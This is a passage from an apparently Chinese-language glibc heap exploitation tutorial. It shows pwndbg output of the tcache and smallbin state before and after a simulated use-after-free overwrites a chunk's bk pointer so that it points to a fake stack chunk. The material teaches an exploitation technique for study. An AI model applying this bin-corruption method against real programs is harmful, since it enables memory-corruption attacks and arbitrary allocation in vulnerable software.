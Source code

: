 ```powershell
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
0xa0: 0x602390 —▸ 0x602250 —▸ 0x7ffff7dcdd30 (main_arena+240) ◂— nop     /* 0x602390 */
largebins
empty
pwndbg> 
```

模拟 UAF 漏洞修改bk为fake_chunk(b 39)：

```c
pwndbg> bin
tcachebins
0xa0 [  5]: 0x6026c0 —▸ 0x602620 —▸ 0x602580 —▸ 0x6024e0 —▸ 0x602440 ◂— 0x0
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
0xa0 [corrupted]
FD: 0x602390 —▸ 0x602250 —▸ 0x7ffff7dcdd30 (main_arena+240) ◂— nop     /* 0x602390 */
BK: 0x602250 —▸ 0x602390 —▸ 0x7fffffffdd10 —▸ 0x7fffffffdd20 ◂— 0x0
largebins
empty
pwndbg> x/16gx 0x602390
0x602390:	0x0000000000000000	0x00000000000000a1 #chunk3（free-smallbin）
0x6023a0:	0x0000000000602250	0x00007fffffffdd10
0x6023b0:	0x0000000000000000	0x0000000000000000
0x6023c0:	0x0000000000000000	0x0000000000000000
0x6023d0:	0x0000000000000000	0x0000000000000000
0x6023e0:	0x0000000000000000	0x0000000000000000
0x6023f0:	0x0000000000000000	0x0000000000000000
0x602400:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

由于smallbin是按照bk指针寻块的，分配的顺序应当是：0x602250 —▸ 0x602390 —▸ 0x7fffffffdd10（FIFO）,
